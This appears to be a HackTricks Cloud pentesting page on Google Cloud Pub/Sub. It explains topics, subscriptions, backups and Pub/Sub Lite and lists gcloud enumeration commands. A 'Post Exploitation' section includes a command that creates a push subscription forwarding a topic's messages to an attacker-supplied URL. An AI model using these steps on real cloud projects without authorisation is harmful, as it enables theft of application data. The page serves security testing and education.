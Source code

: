 # GCP - Pub/Sub

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Pub/Sub <a href="#reviewing-cloud-pubsub" id="reviewing-cloud-pubsub"></a>

Google [**Cloud Pub/Sub**](https://cloud.google.com/pubsub/) is a service that allows independent applications to **send messages** back and forth. Basically, there are **topics** where applications may **subscribe** to send and receive **messages** (which are composed by the message content and some metadata).

The **topic is the queue** where messages are going to be sent, while the **subscriptions** are the **objects** users are going to use to **access messages in the topics**. There can be more than **1 subscription per topic** and there are 3 types of subscriptions:

* **Pull**: The user(s) of this subscription needs to pull for messages.
* **Push**: An URL endpoint is indicated and messages will be sent immediately to it.
* **Big query table**: Like push but setting the messages inside a Big query table.

By **default**, a message is **retained for 7 days**, but this time can be **increased up to 31 days**. Also, if it's not **ACKed in 10s** it goes back to the queue.

A topic is by default encrypted using a **Google managed encryption key**. But a **CMEK** (Customer Managed Encryption Key) from KMS can also be selected.

**Dead letter**: Subscriptions may configure a **maximum number of delivery attempts**. When a message cannot be delivered, it is **republished to the specified dead letter topic**.

### Backups & Schemas

Topics might have **backups** and you could be able to find more **old sensitive information in there**. Backups maintain the **unACKed** msgs of the moment it's taken & the messages after it (and by default they live for a week).

When creating a topic, you can indicate that the **topic messages must follow a schema**.

### Enumeration

```bash
# Get a list of topics in the project
gcloud pubsub topics list
gcloud pubsub topics describe <topic>
gcloud pubsub topics list-subscriptions <topic>
gcloud pubsub topics get-iam-policy <topic>

# Get a list of subscriptions across all topics
gcloud pubsub subscriptions list
gcloud pubsub subscriptions describe <subscription>
gcloud pubsub subscriptions get-iam-policy <subscription>

# Get list of schemas
gcloud pubsub schemas list
gcloud pubsub schemas describe <snapshot>

# Get list of snapshots
gcloud pubsub snapshots list
gcloud pubsub snapshots describe <snapshot>
```

However, you may have better results [**asking for a larger set of data**](https://cloud.google.com/pubsub/docs/replay-overview), including older messages. This has some prerequisites and could impact applications, so make sure you really know what you're doing.

### Post Exploitation

{% code overflow="wrap" %}
```bash
# Publish a message in a topic
gcloud pubsub topics publish deleteme --message "Hello!"

# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>

# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint <URL to push to>
```
{% endcode %}

## Pub/Sub Lite

[**Pub/Sub Lite**](https://cloud.google.com/pubsub/docs/choosing-pubsub-or-lite) is a messaging service with **zonal storage**. Pub/Sub Lite **costs a fraction** of Pub/Sub and is meant for **high volume streaming** (up to 10 million messages per second) pipelines and event-driven system where low cost is the primary consideration.

In PubSub Lite there **are** **topics** and **subscriptions**, there **aren't backups** and **schemas** and there are:

* **Reservations**: Pub/Sub Lite Reservations is a feature that allows users to reserve capacity in a specific region for their message streams.
* **Operations**: Refers to the actions and tasks involved in managing and administering Pub/Sub Lite.

### Enumeration

```bash
# lite-topics
gcloud pubsub lite-topics list
gcloud pubsub lite-topics describe <topic>
gcloud pubsub lite-topics list-subscriptions <topic>

# lite-subscriptions
gcloud pubsub lite-subscriptions list
gcloud pubsub lite-subscriptions describe <subscription>

# lite-reservations
gcloud pubsub lite-reservations list
gcloud pubsub lite-reservations describe <topic>
gcloud pubsub lite-reservations list-topics <topic>

# lite-operations
gcloud pubsub lite-operations list
gcloud pubsub lite-operations describe <topic>
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
